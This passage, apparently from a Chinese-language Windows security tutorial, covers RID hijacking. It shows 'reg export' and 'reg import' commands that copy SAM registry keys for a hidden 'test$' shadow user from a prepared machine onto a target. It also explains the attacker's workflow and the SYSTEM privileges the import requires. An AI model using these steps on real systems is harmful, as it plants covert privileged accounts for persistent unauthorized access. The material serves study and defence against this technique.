 ![RID 劫持 - 验证劫持结果.png](assets/1698895515-bd2523062f73d7fca50d9ac48e5af767.png)

替换完成将用户导出，在目标机器上导入即可。

```plaintext
PS C:\Users\123> reg export HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000003EC Desktop/000003EC.reg
操作成功完成。

PS C:\Users\123> reg export HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\test$ Desktop/test$.reg
操作成功完成。
```

站在攻击者视角来看，真正利用时肯定不是在目标机器上一顿创建账户再劫持 RID，而是根据目标系统类型，在本地测试机上创建影子用户，做好 RID 劫持，最后在目标机器导入这两个注册表。这里再提醒下，导入一定得有权限编辑，就像前面说的默认情况只有 SYSTEM 有权限编辑 SAM 注册表。

```plaintext
PS C:\Users\123> reg import Desktop/000003EC.reg
操作成功完成。
PS C:\Users\123> reg import Desktop/test$.reg
操作成功完成。
```
